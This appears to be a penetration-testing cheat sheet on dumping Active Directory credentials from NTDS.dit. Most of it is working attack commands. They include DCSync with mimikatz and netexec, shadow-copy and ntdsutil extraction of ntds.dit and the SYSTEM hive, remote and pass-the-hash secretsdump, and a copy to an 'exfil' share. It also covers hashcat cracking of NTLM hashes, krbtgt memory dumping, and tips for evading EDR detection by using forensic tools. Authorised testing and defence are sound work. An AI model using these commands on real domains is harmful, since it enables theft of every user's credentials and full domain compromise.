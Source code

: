 # Active Directory - NTDS Dumping

You will need the following files to extract the ntds : 
- NTDS.dit file
- SYSTEM hive (`C:\Windows\System32\SYSTEM`)

Usually you can find the ntds in two locations : `systemroot\NTDS\ntds.dit` and `systemroot\System32\ntds.dit`.

- `systemroot\NTDS\ntds.dit` stores the database that is in use on a domain controller. It contains the values for the domain and a replica of the values for the forest (the Configuration container data).
- `systemroot\System32\ntds.dit` is the distribution copy of the default directory that is used when you install Active Directory on a server running Windows Server 2003 or later to create a domain controller. Because this file is available, you can run the Active Directory Installation Wizard without having to use the server operating system CD.

However you can change the location to a custom one, you will need to query the registry to get the current location.

```powershell
reg query HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /v "DSA Database file"
```

## DCSync Attack

DCSync is a technique used by attackers to obtain sensitive information, including password hashes, from a domain controller in an Active Directory environment. Any member of Administrators, Domain Admins, or Enterprise Admins as well as Domain Controller computer accounts are able to run DCSync to pull password data. 

* DCSync only one user
  ```powershell
  mimikatz# lsadump::dcsync /domain:htb.local /user:krbtgt
  ```
* DCSync all users of the domain
  ```powershell
  mimikatz# lsadump::dcsync /domain:htb.local /all /csv

  netexec smb 10.10.10.10 -u 'username' -p 'password' --ntds
  netexec smb 10.10.10.10 -u 'username' -p 'password' --ntds drsuapi
  ```

> :warning: OPSEC NOTE: Replication is always done between 2 Computers. Doing a DCSync from a user account can raise alerts.


## Volume Shadow Copy

The VSS is a Windows service that allows users to create snapshots or backups of their data at a specific point in time. Attackers can abuse this service to access and copy sensitive data, even if it is currently being used or locked by another process.

* [windows-commands/vssadmin](https://learn.microsoft.com/fr-fr/windows-server/administration/windows-commands/vssadmin)
  ```powershell
  vssadmin create shadow /for=C:
  copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\ShadowCopy
  copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\ShadowCopy
  ```
* [windows-commands/ntdsutil](https://learn.microsoft.com/fr-fr/troubleshoot/windows-server/identity/use-ntdsutil-manage-ad-files)
  ```powershell
  ntdsutil "ac i ntds" "ifm" "create full c:\temp" q q
  ```
* [Pennyw0rth/NetExec](https://www.netexec.wiki/smb-protocol/obtaining-credentials/dump-ntds.dit) - VSS module
  ```powershell
  nxc smb 10.10.0.202 -u username -p password --ntds vss
  ```


## Forensic Tools

A good method for avoiding or reducing detections involves using common forensic tools to dump the NTDS.dit file and the SYSTEM hive. By utilizing widely recognized and legitimate forensic software, the process can be conducted more discreetly and with a lower risk of triggering security alerts.


* Dump the memory with [magnet/dumpit](https://www.magnetforensics.com/resources/magnet-dumpit-for-windows/)
* Use volatility to extract the `SYSTEM` hive
  ```ps1
  volatility -f test.raw windows.registry.printkey.PrintKey
  volatility --profile=Win10x64_14393 dumpregistry -o 0xaf0287e41000 -D output_vol -f test.raw
  ```
* Use [exterro/ftk-imager](https://www.exterro.com/digital-forensics-software/ftk-imager) to read the disk in raw state 
  * Go to `File` -> `Add Evidence Item` -> `Physical Drive` -> `Select the C drive`.
  * Export `C:\Windows\NTDS\ntds.dit`.
* Finally use secretdump: `secretsdump.py LOCAL -system output_vol/registry.0xaf0287e41000.SYSTEM.reg -ntds ntds.dit`


## Extract hashes from ntds.dit

Then you need to use [impacket/secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) to extract the hashes, use the `LOCAL` options to use it on a retrieved ntds.dit

```java
secretsdump.py -system /root/SYSTEM -ntds /root/ntds.dit LOCAL
```

[secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) also works remotely

```java
./secretsdump.py -dc-ip IP AD\administrator@domain -use-vss -pwd-last-set -user-status 
./secretsdump.py -hashes aad3b435b51404eeaad3b435b51404ee:0f49aab58dd8fb314e268c4c6a65dfc9 -just-dc PENTESTLAB/dc\$@10.0.0.1
```

* `-pwd-last-set`: Shows pwdLastSet attribute for each NTDS.DIT account.
* `-user-status`: Display whether or not the user is disabled.


## Extract hashes from adamntds.dit

In AD LDS stores the data inside a dit file located at `C:\Program Files\Microsoft ADAM\instance1\data\adamntds.dit`.

* Dump adamntds.dit with Shadow copy using `vssadmin.exe`
    ```ps1
    vssadmin.exe create shadow /For=C:
    cp "\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopyX\Program files\Microsoft ADAM\instance1\data\adamntds.dit" \\exfil\data\adamntds.dit
    ```

* Dump adamntds.dit with Windows Server Backup using `wbadmin.exe`
    ```ps1
    wbadmin.exe start backup -backupTarget:e: -vssCopy -include:"C:\Program Files\Microsoft ADAM\instance1\data\adamntds.dit"
    wbadmin.exe start recovery -version:08/04/2023-12:59 -items:"c:\Program Files\Microsoft ADAM\instance1\data\adamntds.dit" -itemType:File -recoveryTarget:C:\Users\Administrator\Desktop\ -backupTarget:e:
    ```

* Extract hashes with [synacktiv/ntdissector](https://github.com/synacktiv/ntdissector)
    ```ps1
    ntdissector path/to/adamntds.dit
    python ntdissector/tools/user_to_secretsdump.py path/to/output/*.json
    ```


## Crack NTLM hashes with hashcat

Useful when you want to have the clear text password or when you need to make stats about weak passwords.

Recommended wordlists:
- [Rockyou.txt](https://weakpass.com/wordlist/90)
- [Have I Been Pwned founds](https://hashmob.net/hashlists/info/4169-Have%20I%20been%20Pwned%20V8%20(NTLM))
- [Weakpass.com](https://weakpass.com/)
- Read More at [Methodology and Resources/Hash Cracking.md](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/hash-cracking/)

```powershell
# Basic wordlist
# (-O) will Optimize for 32 characters or less passwords
# (-w 4) will set the workload to "Insane" 
$ hashcat64.exe -m 1000 -w 4 -O -a 0 -o pathtopotfile pathtohashes pathtodico -r myrules.rule --opencl-device-types 1,2

# Generate a custom mask based on a wordlist
$ git clone https://github.com/iphelix/pack/blob/master/README
$ python2 statsgen.py ../hashcat.potfile -o hashcat.mask
$ python2 maskgen.py hashcat.mask --targettime 3600 --optindex -q -o hashcat_1H.hcmask
```

:warning: If the password is not a confidential data (challenges/ctf), you can use online "cracker" like :

- [hashmob.net](https://hashmob.net)
- [crackstation.net](https://crackstation.net)
- [hashes.com](https://hashes.com/en/decrypt/hash)


## NTDS Reversible Encryption

`UF_ENCRYPTED_TEXT_PASSWORD_ALLOWED` ([0x00000080](http://www.selfadsi.org/ads-attributes/user-userAccountControl.htm)), if this bit is set, the password for this user stored encrypted in the directory - but in a reversible form.

The key used to both encrypt and decrypt is the SYSKEY, which is stored in the registry and can be extracted by a domain admin.
This means the hashes can be trivially reversed to the cleartext values, hence the term “reversible encryption”.

* List users with "Store passwords using reversible encryption" enabled
    ```powershell
    Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl
    ```

The password retrieval is already handled by [SecureAuthCorp/secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) and mimikatz, it will be displayed as CLEARTEXT. 


## Extract hashes from memory

Dumps credential data in an Active Directory domain when run on a Domain Controller.

:warning: Requires administrator access with debug privilege or NT-AUTHORITY\SYSTEM account.

```powershell
mimikatz> privilege::debug
mimikatz> sekurlsa::krbtgt
mimikatz> lsadump::lsa /inject /name:krbtgt
```


## References

* [Diskshadow The Return Of VSS Evasion Persistence And AD Db Extraction - bohops - March 26, 2018](https://bohops.com/2018/03/26/diskshadow-the-return-of-vss-evasion-persistence-and-active-directory-database-extraction/)
* [Dumping Domain Password Hashes - Pentestlab - July 4, 2018](https://pentestlab.blog/2018/07/04/dumping-domain-password-hashes/)
* [Using Ntdissector To Extract Secrets From Adam Ntds Files - Julien Legras, Mehdi Elyassa - 06/12/2023](https://www.synacktiv.com/publications/using-ntdissector-to-extract-secrets-from-adam-ntds-files)
* [Bypassing EDR NTDS.dit protection using BlueTeam tools - bilal al-qurneh - Jun 9, 2024](https://medium.com/@0xcc00/bypassing-edr-ntds-dit-protection-using-blueteam-tools-1d161a554f9f)